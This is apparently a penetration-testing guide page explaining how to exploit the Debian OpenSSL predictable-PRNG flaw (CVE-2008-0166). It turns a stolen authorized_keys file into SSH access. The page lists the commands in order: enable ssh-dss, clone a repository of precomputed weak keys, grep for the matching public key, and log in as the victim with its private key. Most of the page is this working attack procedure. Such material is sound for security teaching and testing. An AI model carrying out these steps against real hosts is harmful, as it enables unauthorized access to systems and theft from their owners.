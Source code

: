 # Debian OpenSSL Predictable PRNG (CVE-2008-0166)

This section is about how to leverage an exfiltrated authorized\_keys file to gain access to the target host.

References:

* [https://github.com/g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh)
* [https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/SSH/key-exploit.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/SSH/key-exploit.md)

### Requirements for Exploit

* authorized\_keys file from the target server
* SSH-DSS String from authorized\_keys file

### Steps to Exploit Weakness

1\. Get the authorized\_keys file. An example of this file would look like so:

```
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... 
```

2\. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config`:

```
PubkeyAcceptedKeyTypes +ssh-dss
```

3\. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```
git clone https://github.com/g0tmi1k/debian-ssh
tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

4\. Grep the authorized\_keys file content against the unpacked keys (the first 20-30 characters should be enough to find the right key):

```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247f' dsa/
```

Note, if there are plus symbols stop at the them as we don't want `grep` to attempt to interpret them as quantifiers (regexp).&#x20;

IF SUCCESSFUL, the command will return a file, for example:

```
dsa/1024/84739yufh987fg38fg39847fg38fg3f34f.pub
```

5\. We can now use the corresponding private key file to authenticate:

```
ssh -vvv victim@target -i dsa/1024/84739yufh987fg38fg39847fg38fg3f34f
```

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.
